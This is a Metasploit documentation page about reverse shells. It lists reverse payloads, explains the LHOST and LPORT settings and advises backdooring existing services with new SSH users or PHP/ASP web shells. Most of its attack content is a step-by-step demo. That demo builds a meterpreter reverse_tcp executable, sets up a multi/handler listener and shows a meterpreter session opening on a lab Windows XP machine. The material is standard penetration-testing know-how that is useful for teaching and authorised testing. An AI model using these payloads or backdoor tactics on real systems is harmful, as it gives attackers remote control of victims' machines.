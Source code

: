 ## On this page
* [List of Metasploit reverse shells](#list-of-metasploit-reverse-shells)
  * [Windows common reverse shell](#windows-common-reverse-shell)
  * [Linux common reverse shell](#linux-common-reverse-shell)
* [When to use a reverse shell](#when-to-use-a-reverse-shell)
* [When a reverse shell isn't needed](#when-a-reverse-shell-isnt-needed)
* [How to set up for a reverse shell during payload generation](#how-to-set-up-for-a-reverse-shell-during-payload-generation)
* [Demonstration](#demonstration)
  * [Step 1: Generate the executable payload](#step-1-generate-the-executable-payload)
  * [Step 2: Copy the executable payload to box B](#step-2-copy-the-executable-payload-to-box-b)
  * [Step 3: Set up the payload handler on box A](#step-3-set-up-the-payload-handler-on-box-a)
  * [Step 4: Double-click on the malicious executable](#step-4-double-click-on-the-malicious-executable)
  * [Step 5: View the meterpreter/payload session on box A](#step-5-view-the-meterpreterpayload-session-on-box-a)

There are two popular types of shells: bind and reverse. 
Bind shell - Opens up a new service on the target machine and requires the attacker to connect to it to get a session.
Reverse shell - A reverse shell is also known as a connect-back. It requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally, the attacker receives the shell. 

You can learn more about the primary use of payloads in the  [Users Guide](https://github.com/rapid7/metasploit-framework/blob/master/documentation/users_guide_4.3.pdf).

This article goes over using a reverse shell to get a session.

## List of Metasploit reverse shells
 
To get a list of reverse shells, use the `msfpayload` command. B

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a Meterpreter, because it currently provides better support of the post-exploitation Metasploit has to offer. For example, railgun, post modules, different meterpreter commands.

### Windows common reverse shell

 In Windows, the most commonly used reverse shell is `windows/meterpreter/reverse`.  You can also use `windows/meterpreter/reverse_http` or `windows/meterpreter/reverse_https` because their network traffic appears a little bit less abnormal.

### Linux common reverse shell

In Linux, you can try `linux/x86/meterpreter/reverse_tcp`, or the 64-bit one. The `linux/x86/shell_reverse_tcp` has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios, then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind to the port it wants due to whatever reason.
* You can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example, if the target machine is already running an SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP or ASP.net. The Metasploit Framework offers payloads in all these languages and many others.

This also applied to VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either `msfpayload` or `msfvenom`, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to. If you're in a local area network, it is unlikely your target machine can reach you unless you both are on the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself (or it may not work at all).
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

### Step 1: Generate the executable payload

On the attacker's box, run `msfpayload` or `msfvenom`: 

```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
Length: 287
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}
```

### Step 2: Copy the executable payload to box B

Box B is the victim machine. 

### Step 3: Set up the payload handler on box A

Box A is the attacker machine. 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```

### Step 4: Double-click on the malicious executable

This step requires no further explanation.

### Step 5: View the meterpreter/payload session on box A 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
```

The meterpreter prompt means you are currently interacting with the payload.
